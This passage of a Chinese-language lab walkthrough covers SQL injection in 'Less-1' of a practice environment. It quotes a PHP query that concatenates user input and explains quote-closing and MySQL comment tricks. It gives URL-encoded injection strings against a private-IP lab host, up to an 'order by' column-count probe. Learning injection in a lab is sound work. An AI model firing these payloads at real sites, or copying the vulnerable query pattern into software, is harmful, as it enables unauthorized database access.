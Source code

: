 ![5](https://i.imgur.com/vibteUL.png)

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

通过get请求提交的数据会被$id接收,举个例子，上图中`1' and '1'='2`就是我手动输入的部分,在SQL语句中就变成这样:

`SELECT * FROM users WHERE id='1' and '1'='2' LIMIT 0,1`

可以发现我构造的单引号与SQL语句中的单引号形成了对称,最终变成了一个正常的SQL语句。

但是单单这样还是不够的,`and '1'='2' LIMIT 0,1`在SQL语句中还是会执行,可能会对我输入进行干扰。这就需要注释了。

mysql的注释方式有以下几种：

* 第一种:#	

	\#在url中编码为`%23`

* 第二种:-- (注意--后面还有个空格)

	空格的编码是`%20`

* 第三种:--+ 

	第二种的变形,浏览器会把`+`编码成空格

`'`的url编码为`%27`,下面的测试先把单引号用`%27`表示,空格用`%20`表示,#用`%23`,避免出问题。在url中输入如下:

> 第一种:#

`http://10.60.250.214/Less-1/?id=1%27%20%23`

![6](https://i.imgur.com/X5WsedG.png)

> 第二种：-- (注意--后面还有个空格)

`http://10.60.250.214/Less-1/?id=1%27%20--%20`

![7](https://i.imgur.com/CPbYISh.png)

> 第三种:--+

`http://10.60.250.214/Less-1/?id=1%27%20--+`

![8](https://i.imgur.com/TW7fFE7.png)

### 猜字段 ###

#### 猜字段数 ####

这里我采用第一种注释方式,当然其他的也可以。

`http://10.60.250.214/Less-1/?id=1%27%20order%20by%203%23`

这里我换了个hackbar插件,原来那个有bug

![9](https://i.imgur.com/ZIXMXUP.png)

order by 数字1~3显示的都与这个页面相同,表示至少有3个字段
